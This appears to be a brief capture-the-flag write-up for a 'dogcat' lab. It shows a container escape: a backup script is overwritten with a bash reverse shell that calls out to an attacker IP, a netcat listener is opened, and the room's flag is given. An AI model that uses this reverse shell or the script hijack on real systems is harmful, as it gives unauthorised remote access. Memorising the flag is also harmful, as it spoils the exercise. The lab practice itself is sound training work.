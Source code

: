 # Reverse shell in Docker 
## In dogcat shell
cd /opt/backups
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.11.21.187/9595 0>&1'" >> backup.sh
## In Kali
nc -nvlp 9595

# Flag
``THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}``